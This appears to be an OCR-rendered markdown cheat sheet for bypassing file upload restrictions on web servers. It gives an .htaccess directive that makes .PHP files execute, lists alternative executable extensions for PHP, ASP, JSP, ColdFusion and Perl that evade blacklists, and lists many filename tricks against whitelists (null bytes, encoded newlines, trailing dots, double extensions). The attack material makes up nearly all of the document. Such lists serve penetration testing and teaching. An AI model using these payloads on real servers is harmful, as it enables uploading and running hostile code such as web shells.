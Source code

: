 
```markdown
### .htaccess Configuration for Changing Backend Configuration

```apache
AddType application/x-httpd-php .PHP
# means all files with the extension PHP will be executed !!
```

Then try to upload the .PHP file and see whether the file is accepted or not!

### File Upload Bypass

#### Blacklisting Bypass

**PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

**ASP**: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

**Jsp**: .jsp, .jspx, .jsw, .jsv, .jspf

**Coldfusion**: .cfm, .cfml, .cfc, .dbm

**Perl**: .pl, .cgi

**Using random capitalization**: .pHp, .pHP5, .PhAr

#### Whitelisting Bypass

- file.png.php
- file.png.Php5
- file.php%20
- file.php%0a
- file.php%00
- file.php%0d%0a
- file.php/
- file.php.\
- file.
- file.php....
- file.pHp5....
- file.png.php
- file.png.pHp5
- file.php#.png
- file.php%00.png
- file.php\x00.png
- file.php%0a.png
- file.php%0d%0a.png
- file.phpJunk123png
- file.png.jpg.php
- file.php%00.png%00.jpg
```

You can copy and paste this Markdown content into your Markdown file, and it will be properly formatted.
